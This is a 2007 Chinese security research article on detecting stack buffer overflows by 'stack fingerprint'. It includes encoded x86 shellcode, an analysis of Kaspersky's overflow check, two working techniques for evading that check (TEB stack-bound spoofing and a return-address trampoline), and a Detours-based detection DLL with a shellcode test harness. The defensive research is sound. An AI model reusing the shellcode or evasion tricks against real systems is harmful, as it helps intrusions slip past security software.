


# 基于栈指纹检测缓冲区溢出的一点思路

> 原文：[`www.pediy.com/kssd/pediy09/pediy09-224.htm`](https://www.pediy.com/kssd/pediy09/pediy09-224.htm)

> 基于栈指纹检测缓冲区溢出的一点思路  
> Author:gyzy  
> Email:gyzy@msn.com  
> Homepage:[`www.gyzy.org`](http://www.gyzy.org)   
> Date:2007-08-08  
>   
> 带图片的 PDF 版本及随文工程见附件  
>   
> 一.  现有的检测栈溢出的模式  
> 二.  现有检测体系存在的不足  
> 三.  针对引擎要做的改进  
> 四.  关于未来  
>   
> 引言  
> 当前主动防御等的概念逐渐进入人们视野，国外主流的杀毒软件都有栈溢出的检测模块，尽管相对传统的木马和病毒来说，缓冲区溢出仍占攻击的很小一部分，但是基于传统的“木桶理论”，安全是一个整体，威胁还是无处不在。  
>   
> 现有的栈溢出检测模式  
> 整篇文章我都以 Kaspersky Internet Security(KIS 6)作为例子，KIS7 中这一部分并无大的改进。以下是测试用的 Shellcode：  
>   \_\_asm  
>   {  
>     /\* --------------------解码开始---------------------- \*/  
>     jmp     decode\_end  
>   
> decode\_start:  
>                   
>     pop     edx             // 得到解码开始位置 esp -> edx  
>     dec     edx  
>     xor     ecx,ecx  
>     mov     cx,0x13D           // 要解码的长度  
>   
> decode\_loop:  
>                   
>     xor     byte ptr \[edx+ecx\], 0x99  
>     loop   decode\_loop  
>     jmp     decode\_ok  
>   
> decode\_end:  
>                   
>     call   decode\_start  
>   
> decode\_ok:  
>   /\*--------------------解码结束---------------------- \*/  
>   
>     jmp     end  
>                       
> start:  
>     pop     edx             // 指令表起始地址存放在 esp -> edx  
>   
>     // ===== 从 PEB 中取得 KERNEL32.DLL 的起始地址 =====  
>     //  
>     // 输入:  
>     // edx => 指令表起始地址 (不需要)  
>     //  
>     // 输出:  
>     // eax => kernel32.dll 起始地址  
>     // edx => 指令表起始地址  
>   
>     mov     eax, fs:0x30     // PEB   
>     mov     eax, \[eax + 0x0c\] // PROCESS\_MODULE\_INFO   
>     mov     esi, \[eax + 0x1c\] // InInitOrder.flink   
>     lodsd  
>     mov     eax,\[eax+8\]  
>   
>   
>   
>     // ========== 定位 GetProcAddress 的地址 ==========  
>     //  
>     // 输入:  
>     // eax => kernel32.dll 起始地址  
>     // edx => 指令表起始地址  
>     //  
>     // 输出:  
>     // ebx => kernel32.dll 起始地址  
>     // eax => GetProcAddress 地址  
>     // edx => 指令表起始地址  
>   
>     mov       ebx,eax             // 取 kernel32.dll 的起始地址 DLL Base Address  
>     mov       esi,dword ptr \[ebx+3Ch\]         // esi = PE header offset  
>     mov       esi,dword ptr \[esi+ebx+78h\]  
>     add       esi,ebx             // esi = exports directory table   
>     mov       edi,dword ptr \[esi+20h\]             
>     add       edi,ebx             // edi = name pointers table  
>     mov       ecx,dword ptr \[esi+14h\]         // ecx = number of  name pointers  
>     xor       ebp,ebp           
>     push     esi  
>   
>                       
> search\_GetProcAddress:  
>     push     edi  
>     push     ecx  
>     mov       edi,dword ptr \[edi\]  
>     add       edi,ebx             // 把输出函数名表起始地址存人 edi  
>     mov       esi,edx             // 指令表起始地址存入 esi  
>     //mov       ecx,0Eh             // 函数 getprocAddress 长度为 0Eh  
>     push     0xE  
>     pop     ecx  
>     repe cmps   byte ptr \[esi\],byte ptr \[edi\]  
>     je       search\_GetProcAddress\_ok  
>                   
>     pop       ecx  
>     pop       edi  
>     add       edi,4  
>     inc       ebp  
>     loop     search\_GetProcAddress  
>   
> search\_GetProcAddress\_ok:  
>     pop       ecx  
>     pop       edi  
>     pop       esi  
>     mov       ecx,ebp  
>     mov       eax,dword ptr \[esi+0x24\]  
>     add       eax,ebx  
>     shl       ecx,1  
>     add       eax,ecx  
>     xor       ecx,ecx  
>     mov       cx,word ptr \[eax\]  
>     mov       eax,dword ptr \[esi+0x1C\]  
>     add       eax,ebx  
>     shl       ecx,2  
>     add       eax,ecx  
>     mov       eax,dword ptr \[eax\]  
>     add       eax,ebx  
>                   
>     // ============ 调用函数解决 api 地址 ============  
>     //  
>     // 输入:  
>     // ebx =>kernel32.dll 起始地址  
>     // eax =>GetProcAddress 地址  
>     // edx =>指令表起始地址  
>     //  
>     // 输出:  
>     // edi =>函数地址 base addr  
>     // esi =>指令表当前位置  
>     // edx =>GetProcAddress 地址  
>   
>     mov     edi,edx  
>     mov     esi,edi  
>     add     esi,0xE             // 0xE 跳过 1 个字符串"GetProcAddress"32177368  
>                   
>     // ============ 解决 kernel32.dll 中的函数地址 ============  
>     mov     edx,eax             // 把 GetProcAddress 地址存放在 edx  
>     //mov     ecx,0x5             // 需要解决的函数地址的个数  
>     push   0x2  
>     pop    ecx  
>     call   locator\_api\_addr  
>                   
>     // ============ 加载 user32.dll ============  
>     add    esi,0xd               
>                                     // 硬编码可以节省两个字节  
>     push   edx                 // edx 是 GetProcAddress 地址  
>     push   esi                 // 字符"urlmon"地址  
>     //mov    dword ptr fs:\[4\],0x0012FFFF  
>     //mov    dword ptr fs:\[8\],0x0012FFFF  
>     call   dword ptr \[edi-4\]           // LoadLibraryA  
>                   
>     // ============ 解决函数地址 ============  
>     pop     edx  
>     mov     ebx,eax             // 将 urlmon.dll 起始地址存放在 ebx  
>     //mov     ecx,1             // 函数个数  
>     push   0x1  
>     pop     ecx             // 函数个数 <-这种方式省两个字节  
>     call   locator\_api\_addr  
>   
>     // 取得一些空间存放系统路径  
>     sub esp, 0x20  
>     mov ebx, esp  
>   
>     //MessageBox 的参数  
>     mov dword ptr \[ebx\], 0x797a7967         // "yzyg"  
>     mov dword ptr \[ebx+0x4\], 0x00000000       // "00"  
>   
>     push 0  
>     push ebx  
>     push ebx  
>     push 0  
>     call \[edi-0x4\]            //MessageBoxA  
>                  
>     // ExitProcess  
>     push   eax  
>     call   dword ptr \[edi-0x0c\]           // ExitProcess  
>   
>     // ============ 解决 api 地址的函数 ============  
>     //  
>     // 输入参数:  
>     // ecx 函数个数  
>     // edx GetProcAddress 地址  
>     // ebx 输出函数的 dll 起始地址  
>     // esi 函数名表起始地址  
>     // edi 保存函数地址的起始地址  
>   
> locator\_api\_addr:  
>                   
> locator\_space:  
>     xor     eax,eax  
>     lodsb  
>     test   eax,eax                 // 寻找函数名之间的空格 x00  
>     jne     locator\_space  
>                   
>     push   ecx  
>     push   edx  
>     push   esi                 // 函数名  
>     push   ebx                 // 输出函数的 dll 起始地址  
>     //mov    dword ptr fs:\[4\],0x0012FFFF  
>     //mov    dword ptr fs:\[8\],0x0012FFFF  
>     call   edx  
>     pop     edx  
>     pop     ecx  
>     stos   dword ptr \[edi\]  
>     loop   locator\_space  
>     xor     eax,eax  
>     ret  
>     // ================== 结束调用 ====================  
> end:  
>     call   start  
>   }  
>   
> 通过这个简单的 Shellcode 可以窥探到卡巴对于栈溢出的检测模式，通过将 shellcode 拷贝到栈中执行的方式也模拟栈溢出，期间 KIS 共弹出了 5 次 Buffer Overrun 的警告，从 Shellcode 中大致可以推断出被 Hook 的函数是 GetProcAddress(4 次)和 LoadLibraryA(1 次)，如图 1  
>   
>   
> 以下是 GetProcAddress 的反汇编代码：  
> 7C883FEC >  55              PUSH EBP  
> 7C883FED    8BEC            MOV EBP,ESP  
> 7C883FEF    90              NOP  
> 7C883FF0    5D              POP EBP  
> 7C883FF1  - E9 997EFF75     JMP F287BE8F  
> 7C883FF6    90              NOP  
> 7C883FF7    90              NOP  
> 很明显 GetProcAddress 被 Hook 了，LoadLibrary 系列函数也是一样，那么究竟卡巴是如何检测栈溢出的产生的呢，再看它的驱动：  
> lkd> u f287BE8F  
> f287be8f 8b442404        mov     eax,dword ptr \[esp+4\]  
> f287be93 56              push    esi  
> f287be94 8b74240c        mov     esi,dword ptr \[esp+0Ch\]  
> f287be98 6a00            push    0  
> f287be9a 56              push    esi  
> f287be9b 6880be87f2      push    0F287BE80h  
> f287bea0 8d4c2414        lea     ecx,\[esp+14h\]  
> f287bea4 50              push    eax  
> lkd> u  
> f287bea5 51              push    ecx  
> f287bea6 e8f5f3ffff      call    f287b2a0  
> f287beab 84c0            test    al,al  
> f287bead 7410            je      f287bebf  
> f287beaf 6a05            push    5  
> f287beb1 33f6            xor     esi,esi  
> f287beb3 ff159cc087f2    call    dword ptr ds:\[0F287C09Ch\]  
> f287beb9 8bc6            mov     eax,esi  
> lkd> u  
> f287bebb 5e              pop     esi  
> f287bebc c20800          ret     8  
> f287bebf 688fbe87f2      push    0F287BE8Fh  
> f287bec4 e807f6ffff      call    f287b4d0  
> f287bec9 8d1440          lea     edx,\[eax+eax\*2\]  
> f287becc 56              push    esi  
> f287becd 8b44240c        mov     eax,dword ptr \[esp+0Ch\]  
> f287bed1 50              push    eax  
> lkd> u f287b2a0  
> f287b2a0 8b442408        mov     eax,dword ptr \[esp+8\]  
> f287b2a4 8b542404        mov     edx,dword ptr \[esp+4\]  
> f287b2a8 56              push    esi  
> f287b2a9 8d4c240c        lea     ecx,\[esp+0Ch\]  
> f287b2ad 50              push    eax  
> f287b2ae 51              push    ecx  
> f287b2af 52              push    edx  
> f287b2b0 e8fbfdffff      call    f287b0b0  
> lkd> u f287b0b0  
> f287b0b0 55              push    ebp  
> f287b0b1 8bec            mov     ebp,esp  
> f287b0b3 83ec24          sub     esp,24h  
> f287b0b6 64a104000000    mov     eax,dword ptr fs:\[00000004h\]  
> f287b0bc 8945f8          mov     dword ptr \[ebp-8\],eax  
> f287b0bf 64a108000000    mov     eax,dword ptr fs:\[00000008h\]  
> f287b0c5 8945fc          mov     dword ptr \[ebp-4\],eax  
> f287b0c8 8b4508          mov     eax,dword ptr \[ebp+8\]  
> lkd> u  
> f287b0cb 8b4d0c          mov     ecx,dword ptr \[ebp+0Ch\]  
> f287b0ce 8b50fc          mov     edx,dword ptr \[eax-4\]  
> f287b0d1 8b45fc          mov     eax,dword ptr \[ebp-4\]  
> f287b0d4 3bd0            cmp     edx,eax  
> f287b0d6 8911            mov     dword ptr \[ecx\],edx  
> f287b0d8 7210            jb      f287b0ea  
> f287b0da 3b55f8          cmp     edx,dword ptr \[ebp-8\]  
> f287b0dd 730b            jae     f287b0ea  
> lkd> u  
> f287b0df b8e7030000      mov     eax,3E7h  
> f287b0e4 8be5            mov     esp,ebp  
> f287b0e6 5d              pop     ebp  
> f287b0e7 c20c00          ret     0Ch  
> f287b0ea 8b4510          mov     eax,dword ptr \[ebp+10h\]  
> f287b0ed 3d00000068      cmp     eax,68000000h  
> f287b0f2 0f829e000000    jb      f287b196  
> f287b0f8 3d00000065      cmp     eax,65000000h  
> 其中 f287b0d4 处的几条比较指令可能就是判断溢出与否的关键，上面有两条指令也特别值得注意：  
> mov     eax,dword ptr fs:\[00000004h\]  
> mov     eax,dword ptr fs:\[00000008h\]  
>   
> 以下是 TEB 的数据结构：  
> typedef struct \_TEB {              // Size: 0xF88  
> /\*000\*/  NT\_TIB NtTib;  
> /\*01C\*/  VOID \*EnvironmentPointer;  
> /\*020\*/  CLIENT\_ID ClientId;       // PROCESS id, THREAD id  
> /\*028\*/  HANDLE ActiveRpcHandle;  
> /\*02C\*/  VOID \*ThreadLocalStoragePointer;  
> /\*030\*/  PEB \*ProcessEnvironmentBlock;  // PEB  
> /\*034\*/  ULONG LastErrorValue;  
> /\*038\*/  ULONG CountOfOwnedCriticalSections;  
> /\*03C\*/  ULONG CsrClientThread;  
> /\*040\*/  ULONG Win32ThreadInfo;  
> /\*044\*/  UCHAR Win32ClientInfo\[0x7C\];  
> /\*0C0\*/  ULONG WOW32Reserved;  
> /\*0C4\*/  ULONG CurrentLocale;  
> /\*0C8\*/  ULONG FpSoftwareStatusRegister;  
> /\*0CC\*/  UCHAR SystemReserved1\[0xD8\];   // ExitStack ???  
> /\*1A4\*/  ULONG Spare1;  
> /\*1A8\*/  ULONG ExceptionCode;  
> /\*1AC\*/  UCHAR SpareBytes1\[0x28\];  
> /\*1D4\*/  UCHAR SystemReserved2\[0x28\];  
> /\*1FC\*/  UCHAR GdiTebBatch\[0x4E0\];  
> /\*6DC\*/  ULONG gdiRgn;  
> /\*6E0\*/  ULONG gdiPen;  
> /\*6E4\*/  ULONG gdiBrush;  
> /\*6E8\*/  CLIENT\_ID RealClientId;  
> /\*6F0\*/  ULONG GdiCachedProcessHandle;  
> /\*6F4\*/  ULONG GdiClientPID;  
> /\*6F8\*/  ULONG GdiClientTID;  
> /\*6FC\*/  ULONG GdiThreadLocalInfo;  
> /\*700\*/  UCHAR UserReserved\[0x14\];  
> /\*714\*/  UCHAR glDispatchTable\[0x460\];  
> /\*B74\*/  UCHAR glReserved1\[0x68\];  
> /\*BDC\*/  ULONG glReserved2;  
> /\*BE0\*/  ULONG glSectionInfo;  
> /\*BE4\*/  ULONG glSection;  
> /\*BE8\*/  ULONG glTable;  
> /\*BEC\*/  ULONG glCurrentRC;  
> /\*BF0\*/  ULONG glContext;  
> /\*BF4\*/  ULONG LastStatusValue;  
> /\*BF8\*/  LARGE\_INTEGER StaticUnicodeString;  
> /\*C00\*/  UCHAR StaticUnicodeBuffer\[0x20C\];  
> /\*E0C\*/  ULONG DeallocationStack;  
> /\*E10\*/  UCHAR TlsSlots\[0x100\];  
> /\*F10\*/  LARGE\_INTEGER TlsLinks;  
> /\*F18\*/  ULONG Vdm;  
> /\*F1C\*/  ULONG ReservedForNtRpc;  
> /\*F20\*/  LARGE\_INTEGER DbgSsReserved;  
> /\*F28\*/  ULONG HardErrorsAreDisabled;  
> /\*F2C\*/  UCHAR Instrumentation\[0x40\];  
> /\*F6C\*/  ULONG WinSockData;  
> /\*F70\*/  ULONG GdiBatchCount;  
> /\*F74\*/  ULONG Spare2;  
> /\*F78\*/  ULONG Spare3;  
> /\*F7C\*/  ULONG Spare4;  
> /\*F80\*/  ULONG ReservedForOle;  
> /\*F84\*/  ULONG WaitingOnLoaderLock;  
> } TEB, \*PTEB;  
>   
> typedef struct \_NT\_TIB {  
>     struct \_EXCEPTION\_REGISTRATION\_RECORD \*ExceptionList; // 00h Head of exception  
>               // record list  
>     PVOID StackBase;                    // 04h  
>     PVOID StackLimit;                   // 08h  
>     PVOID SubSystemTib;                 // 0Ch  
>     union {                             // 10h  
>         PVOID FiberData;                // for TIB  
>         ULONG Version;                  // for TEB  
>     };  
>     PVOID ArbitraryUserPointer;         // 14h Available  
>           // for application use  
>     struct \_NT\_TIB \*Self;               // 18h Linear address  
>           // of TEB structure  
> } NT\_TIB;  
> typedef NT\_TIB \*PNT\_TIB;  
> Fs:\[4\]和 Fs:\[8\]分别是当前线程的栈基址和栈顶，现在思路就比较明朗了，卡巴就是通过检测 GetProcAddress 等关键 API 的返回地址是否处于栈中来判定栈溢出的发生。  
>   
> 现有检测模式的不足  
> 既然知道了他的检测模式，那么突破就是轻而易举的事了，有两种思路：  
> 修改 TEB 中 Fs:\[4\]和 Fs:\[8\]的值来使卡巴认为返回地址不在栈中.就是上面 Shellcode 中在 call 之前注释掉的部分 mov dword ptr fs:\[4\],0x0012FFFF 和 mov dword ptr fs:\[8\],0x0012FFFF。在测试的时候发现使用这一方法能使 GetProcAddress 绕过卡巴的检测，但是 LoadLibrary 系列却不行，百思不得其解，若有高人知道，请指教（可能 TEB 跟线程有关，LoadLibrary 涉及到多线程方面的一些问题）。  
>   
> 第二种方法就是在内存中找一个相对固定又可写可执行的地址写入 push 返回地址 ret 这样一系列的指令，然后再将函数返回地址指向其来绕过卡巴的检测。具体的实现如下：在原来调用 API 的地方，如 call   dword ptr \[edi-4\]           // LoadLibraryA  
> 使用如下方法来代替:      
> mov    edx,dword ptr \[edi-4\]            // LoadLibraryA  
> call  gcall  
> 其中 gcall 代码如下：  
>     // ============ 绕过缓冲区溢出检查的 call ============  
>     //  
>     // 输入参数:  
>     // edx 函数地址  
>     // 0x7C884000  
> gcall:  
>     pop    eax //将真正的返回地址保存到 eax  
>     mov    ecx,0x7C884000  
>     push    ecx  
>     mov    byte  ptr \[ecx\],0x68   //push 指令  
>     mov    dword ptr \[ecx+1\],eax  //写入地址  
>     mov    byte  ptr \[ecx+5\],0xC3  //写入 ret 指令  
>     jmp    edx //执行真正的函数  
> 0x7C884000 是 Kernel32 数据段的地址，当然，可以用其它等价的地址替换。再次运行 shellcode，卡巴没有任何反应，如图 2：  
>   
>   
> 针对性的改进  
> 在卡巴现有的检测中还是有一个 Bug，就是 TEB 中的栈基址和栈顶数据是不可信的，应当在初始化时保存，而不应每次都去重新获取，当然这种检测机制本身就是不可靠的，需要改进，这就是本文要提出的基于栈指纹检测缓冲区溢出，说白了就是利用特征码+API Hook 来更可靠的检测栈溢出的发生，防止迂回绕过我们的检测，因为有一点是肯定的：栈溢出发生时 Shellcode 是在栈中的，这个想法也是借鉴自反病毒的概念。微软公司在 VC7 开始提供了一个/GS 编译选项来防止栈溢出带来的危害，但是事实证明还是能被绕过，例如：覆盖 SEH。笔者认为安全产品做的越前端就越不容易被绕过，比如拦截 Shellcode 的行为肯定要比拦截溢出的发生有效的多。  
> 笔者利用 Detour 库做了一个检测的模型，代码如下：  
> // dll.cpp : 定义 DLL 应用程序的入口点。  
> //  
> #include <windows.h>  
> #include "detours.h"  
> #include <dbt.h>  
>   
> DETOUR\_TRAMPOLINE(HMODULE WINAPI fLoadLibraryA(LPCTSTR lpFileName),LoadLibraryA);  
>   
> HMODULE WINAPI MyLoadLibraryA(LPCTSTR lpFileName)  
> {  
>   DWORD stackbase,stacklimit,retaddr;  
>   
>   \_\_asm{  
>     mov eax,dword ptr \[esp+0x1c\]  
>     mov retaddr,eax  
>     mov eax,dword ptr fs:\[4\]  
>     mov stackbase,eax  
>     mov eax,dword ptr fs:\[8\]  
>     mov stacklimit,eax  
>   }  
>   
>   if ( retaddr < stacklimit && retaddr > stackbase )  
>   {  
> overflow:  
>     MessageBox(0,"BufferOverflow Detected!","gyzy",MB\_ICONINFORMATION);  
>     return NULL;  
>   }  
>   
>   //0x64 0xA1 0x30 0x00 0x00 0x00  
>   \_\_asm{  
>     push  0x100  
>     pop    ecx  
>     mov    esi,esp  
> compare:  
>     cmp    dword ptr \[esi\],0x0030A164  //检测 mov eax,fs:\[30\]  
>     je    overflow  
>     inc    esi  
>     loop  compare  
>   }  
>   
>     return fLoadLibraryA(lpFileName);  
> }  
>   
> BOOL APIENTRY DllMain( HANDLE hModule,DWORD  ul\_reason\_for\_call,LPVOID lpReserved)  
> {  
>   switch (ul\_reason\_for\_call)   
>   {  
>   case DLL\_PROCESS\_ATTACH:  
>     DetourFunctionWithTrampoline((PBYTE)fLoadLibraryA,(PBYTE)MyLoadLibraryA);  
>     break;  
>   
>   case DLL\_PROCESS\_DETACH:  
>     DetourRemove((PBYTE)fLoadLibraryA,(PBYTE)MyLoadLibraryA);  
>     break;  
>   }  
>   return TRUE;  
> }  
> 这儿只是为了达到演示的目的只挂接了 LoadLibraryA，并且配合了卡巴的检测方法，目的是提高检测的效率。这使用的指纹就是 mov eax,fs:\[30\]，几乎每个 Shellcode 都会用到来获取 Kernel32 的基址，当然如果要成为一个商业产品，那无疑需要降低误报的几率,那就需要更可靠的特征码。  
> #include <windows.h>  
>   
> unsigned char shellcode\[\] =   
> "\\xEB\\x10\\x5A\\x4A\\x33\\xC9\\x66\\xB9\\x21\\x01\\x80\\x34\\x0A\\x99\\xE2\\xFA"  
> "\\xEB\\x05\\xE8\\xEB\\xFF\\xFF\\xFF"  
>   
> "\\x70\\x45\\x99\\x99\\x99\\xC3\\xFD\\x38\\xA9\\x99\\x99\\x99\\x12\\xD9\\x95\\x12"  
> "\\xE9\\x85\\x34\\x12\\xD9\\x91\\x12\\x41\\x12\\xEA\\xA5\\x12\\xED\\x87\\xE1\\x9A"  
> "\\x6A\\x12\\xE7\\xB9\\x9A\\x62\\x12\\xD7\\x8D\\xAA\\x74\\xCF\\xCE\\xC8\\x12\\xA6"  
> "\\x9A\\x62\\x12\\x6B\\xF3\\x97\\xC0\\x6A\\x3F\\xED\\x91\\xC0\\xC6\\x1A\\x5E\\x9D"  
> "\\xDC\\x7B\\x70\\xC0\\xC6\\xC7\\x12\\x54\\x12\\xDF\\xBD\\x9A\\x5A\\x48\\x78\\x9A"  
> "\\x58\\xAA\\x50\\xFF\\x12\\x91\\x12\\xDF\\x85\\x9A\\x5A\\x58\\x78\\x9B\\x9A\\x58"  
> "\\x12\\x99\\x9A\\x5A\\x12\\x63\\x12\\x6E\\x1A\\x5F\\x97\\x12\\x49\\xF3\\x9B\\xC0"  
> "\\x71\\xD8\\x99\\x99\\x99\\x1A\\x5F\\x94\\xCB\\xCF\\x12\\xCE\\x65\\x71\\xD5\\x99"  
> "\\x99\\x99\\xC3\\x12\\x41\\xF3\\x98\\xC0\\x71\\xB0\\x99\\x99\\x99\\x1A\\x75\\xB9"  
> "\\x12\\x45\\x5E\\x9A\\xFE\\xE0\\xE3\\xE0\\x5E\\xDA\\x9D\\x99\\x99\\x99\\x99\\xF3"  
> "\\x99\\xCA\\xCA\\xF3\\x99\\x12\\xCE\\x65\\x71\\xB8\\x99\\x99\\x99\\xC9\\x12\\xCE"  
> "\\x6D\\x71\\x81\\x99\\x99\\x99\\xAA\\x59\\x35\\x1C\\x59\\xEC\\x60\\xC8\\xCB\\xCF"  
> "\\xCA\\x71\\x91\\x99\\x99\\x99\\xC3\\xC0\\x32\\x7B\\x72\\xAA\\x59\\x5A\\xC1\\x20"  
> "\\x99\\xD9\\x11\\xE5\\xC8\\x5F\\x98\\xF1\\x10\\xD8\\x98\\x5F\\xD8\\x9C\\x5A\\x66"  
> "\\x7B\\x71\\x86\\x66\\x66\\x66"  
>   
> "\\xDE\\xFC\\xED\\xC9\\xEB\\xF6\\xFA\\xD8\\xFD\\xFD\\xEB\\xFC\\xEA\\xEA\\x99\\xDC"  
> "\\xE1\\xF0\\xED\\xC9\\xEB\\xF6\\xFA\\xFC\\xEA\\xEA\\x99\\xD5\\xF6\\xF8\\xFD\\xD5"  
> "\\xF0\\xFB\\xEB\\xF8\\xEB\\xE0\\xD8\\x99\\xEC\\xEA\\xFC\\xEB\\xAA\\xAB\\x99\\xD4"  
> "\\xFC\\xEA\\xEA\\xF8\\xFE\\xFC\\xDB\\xF6\\xE1\\xD8\\x99";  
>   
> unsigned char sh2llcode\[\] =   
> "\\xEB\\x10\\x5A\\x4A\\x33\\xC9\\x66\\xB9\\x28\\x01\\x80\\x34\\x0A\\x99\\xE2\\xFA"  
> "\\xEB\\x05\\xE8\\xEB\\xFF\\xFF\\xFF"  
>   
> "\\x70\\x7A\\x99\\x99\\x99\\xC3\\xFD\\x38\\xA9\\x99\\x99\\x99\\x12\\xD9\\x95\\x12"  
> "\\xE9\\x85\\x34\\x12\\xD9\\x91\\x12\\x41\\x12\\xEA\\xA5\\x12\\xED\\x87\\xE1\\x9A"  
> "\\x6A\\x12\\xE7\\xB9\\x9A\\x62\\x12\\xD7\\x8D\\xAA\\x74\\xCF\\xCE\\xC8\\x12\\xA6"  
> "\\x9A\\x62\\x12\\x6B\\xF3\\x97\\xC0\\x6A\\x3F\\xED\\x91\\xC0\\xC6\\x1A\\x5E\\x9D"  
> "\\xDC\\x7B\\x70\\xC0\\xC6\\xC7\\x12\\x54\\x12\\xDF\\xBD\\x9A\\x5A\\x48\\x78\\x9A"  
> "\\x58\\xAA\\x50\\xFF\\x12\\x91\\x12\\xDF\\x85\\x9A\\x5A\\x58\\x78\\x9B\\x9A\\x58"  
> "\\x12\\x99\\x9A\\x5A\\x12\\x63\\x12\\x6E\\x1A\\x5F\\x97\\x12\\x49\\xF3\\x9B\\xC0"  
> "\\x71\\xD1\\x99\\x99\\x99\\x1A\\x5F\\x94\\xCB\\xCF\\xFD\\x5E\\x9C\\x9D\\x99\\x99"  
> "\\x99\\x66\\x66\\x8B\\x99\\xFD\\x5E\\x9C\\x91\\x99\\x99\\x99\\x66\\x66\\x8B\\x99"  
> "\\x66\\xCE\\x65\\xC3\\x12\\x41\\xF3\\x98\\xC0\\x71\\x86\\x99\\x99\\x99\\x1A\\x75"  
> "\\xB9\\x12\\x45\\x5E\\x9A\\xFE\\xE0\\xE3\\xE0\\x5E\\xDA\\x9D\\x99\\x99\\x99\\x99"  
> "\\xF3\\x99\\xCA\\xCA\\xF3\\x99\\x66\\xCE\\x65\\xC9\\x66\\xCE\\x6D\\xAA\\x59\\x35"  
> "\\x1C\\x59\\xEC\\x60\\xC8\\xCB\\xCF\\xCA\\xFD\\x5E\\x9C\\x9D\\x99\\x99\\x99\\x66"  
> "\\x66\\x8B\\x99\\xFD\\x5E\\x9C\\x91\\x99\\x99\\x99\\x66\\x66\\x8B\\x99\\x66\\x4B"  
> "\\xC3\\xC0\\x32\\x7B\\x41\\xAA\\x59\\x5A\\x71\\x81\\x66\\x66\\x66"  
>   
> "\\xDE\\xFC\\xED\\xC9\\xEB\\xF6\\xFA\\xD8\\xFD\\xFD\\xEB\\xFC\\xEA\\xEA\\x99\\xDC"  
> "\\xE1\\xF0\\xED\\xC9\\xEB\\xF6\\xFA\\xFC\\xEA\\xEA\\x99\\xD5\\xF6\\xF8\\xFD\\xD5"  
> "\\xF0\\xFB\\xEB\\xF8\\xEB\\xE0\\xD8\\x99\\xEC\\xEA\\xFC\\xEB\\xAA\\xAB\\x99\\xD4"  
> "\\xFC\\xEA\\xEA\\xF8\\xFE\\xFC\\xDB\\xF6\\xE1\\xD8\\x99";  
>   
> unsigned char sh3llcode\[\] =   
> "\\xEB\\x10\\x5A\\x4A\\x33\\xC9\\x66\\xB9\\xFC\\x00\\x80\\x34\\x0A\\x99\\xE2\\xFA"  
> "\\xEB\\x05\\xE8\\xEB\\xFF\\xFF\\xFF"  
>   
> "\\x70\\x2E\\x99\\x99\\x99\\xC3\\xFD\\x38\\xA9\\x99\\x99\\x99\\x12\\xD9\\x95\\x12"  
> "\\xE9\\x85\\x34\\x12\\xD9\\x91\\x12\\x41\\x12\\xEA\\xA5\\x12\\xED\\x87\\xE1\\x9A"  
> "\\x6A\\x12\\xE7\\xB9\\x9A\\x62\\x12\\xD7\\x8D\\xAA\\x74\\xCF\\xCE\\xC8\\x12\\xA6"  
> "\\x9A\\x62\\x12\\x6B\\xF3\\x97\\xC0\\x6A\\x3F\\xED\\x91\\xC0\\xC6\\x1A\\x5E\\x9D"  
> "\\xDC\\x7B\\x70\\xC0\\xC6\\xC7\\x12\\x54\\x12\\xDF\\xBD\\x9A\\x5A\\x48\\x78\\x9A"  
> "\\x58\\xAA\\x50\\xFF\\x12\\x91\\x12\\xDF\\x85\\x9A\\x5A\\x58\\x78\\x9B\\x9A\\x58"  
> "\\x12\\x99\\x9A\\x5A\\x12\\x63\\x12\\x6E\\x1A\\x5F\\x97\\x12\\x49\\xF3\\x9B\\xC0"  
> "\\x71\\xAB\\x99\\x99\\x99\\x1A\\x5F\\x94\\xCB\\xCF\\x66\\xCE\\x65\\xC3\\x12\\x41"  
> "\\xF3\\x98\\xC0\\x71\\x86\\x99\\x99\\x99\\x1A\\x75\\xB9\\x12\\x45\\x5E\\x9A\\xFE"  
> "\\xE0\\xE3\\xE0\\x5E\\xDA\\x9D\\x99\\x99\\x99\\x99\\xF3\\x99\\xCA\\xCA\\xF3\\x99"  
> "\\x66\\xCE\\x65\\xC9\\x66\\xCE\\x6D\\xAA\\x59\\x35\\x1C\\x59\\xEC\\x60\\xC8\\xCB"  
> "\\xCF\\xCA\\x66\\x4B\\xC3\\xC0\\x32\\x7B\\x77\\xAA\\x59\\x5A\\x71\\xDD\\x66\\x66"  
> "\\x66"  
>   
> "\\xDE\\xFC\\xED\\xC9\\xEB\\xF6\\xFA\\xD8\\xFD\\xFD\\xEB\\xFC\\xEA\\xEA\\x99\\xDC"  
> "\\xE1\\xF0\\xED\\xC9\\xEB\\xF6\\xFA\\xFC\\xEA\\xEA\\x99\\xD5\\xF6\\xF8\\xFD\\xD5"  
> "\\xF0\\xFB\\xEB\\xF8\\xEB\\xE0\\xD8\\x99\\xEC\\xEA\\xFC\\xEB\\xAA\\xAB\\x99\\xD4"  
> "\\xFC\\xEA\\xEA\\xF8\\xFE\\xFC\\xDB\\xF6\\xE1\\xD8\\x99";  
>   
> int  WINAPI WinMain(HINSTANCE hInstance,HINSTANCE hPrevInstance,LPSTR lpCmdLine,int nCmdShow)  
> {    
>   //加载溢出防护 dll  
>   LoadLibrary("AntiOverflow.dll");  
>   
>   char sc\[512\];  
>   ZeroMemory(sc,512);  
>   memcpy(sc,(char\*)shellcode,512);  
>   
>   \_\_asm  
>   {  
>     lea eax,sc  
>       
>     jmp eax  
>   }  
>   
>   return 0;  
> }  
> 第一个 Shellcode 是能绕过卡巴检测的，第二个是修改了 TEB 中栈基址和栈顶值的 Shellcode，卡巴会报一次，第三个是原始的 Shellcode，卡巴会报 5 次。在加载了上述的溢出防护 dll 之后，3 次测试都准确的拦截了，如图 3:  
>   
>   
> 关于未来  
> 从效率的角度来看，Ring0 下的 Hook 显然要比 Ring3 下高，因为挂接了大量此类函数会使系统的效率明显下降，以及代码的效率问题，都是需要提高的。另外就是指纹的选择，可以借鉴杀毒软件中复合特征码的思路来做。历来对于堆溢出的检测一直没有好的思路，或许指纹检测也是一个权宜之计。错误或纰漏在所难免，在此还恳请大家指正。  
>   
> 附参考文献:  
> \[1\] 作者不详.《Windows NT 内核分析》

> 写了很长，大意是：  
>   
> myLoadLibrary(xx):  
>   
